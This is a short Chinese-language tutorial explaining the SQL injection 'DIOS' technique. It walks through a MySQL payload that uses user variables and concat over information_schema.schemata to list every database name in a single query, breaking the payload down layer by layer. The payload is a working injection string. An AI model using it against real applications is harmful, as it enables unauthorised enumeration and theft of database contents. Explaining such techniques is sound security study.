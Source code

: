 在https://mp.weixin.qq.com/s/84se5CxYlVT05bcw654wKg 这篇文章中首次看到的DIOS，感觉好像很厉害的样子，遂去网上开始找资料

先说结论（个人理解）：不是什么新的SQL注入漏洞利用方式，只是一种“在一条语句中提取全部数据的方便的”提取方式

一次性返回所有数据库的名称：  
```
(select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))))a);
```
![image](./0.png)  
解释：  
首先需要知道3个事：  
1、@a是sql中的变量，涉及到它的表达式需要用括号扩上  
2、:=是sql中的赋值符号  
3、sql中的函数concat有一个特性，如果参数中有一个为NULL，那么结果为NULL，所以需要先执行select(@a:=0x00)  
从最内层开始解释：  
```
(@a:=concat(@a,schema_name,'<br>'))
```
连接@a的值和schema_name的值以及'<br>'  
倒数第二层的解释，此时语句变成了：  
```
(select (@a) from ( information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>')) )
```
通常的where in用法形如：select x from y where x in '1,2,3'是选择某个字段，然后字段值在某个范围  
但是此条语句并不是通常的where in用法，而是将information_schema.schemata中schema_name的值依次添加到变量@a中  
倒数第三层的解释，此时语句变成了：  
```
(select (@a) from (select(@a:=0x00),expr1)a);
```
再进一步简化一下：  
```
(select (@a) from (expr2)a);
```
此条语句即表示：选择@a的值  
此时查看@a的值如下  
![image](./1.png)  
此时
```
(select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))));
```
的值如下  
![image](./2.png)  
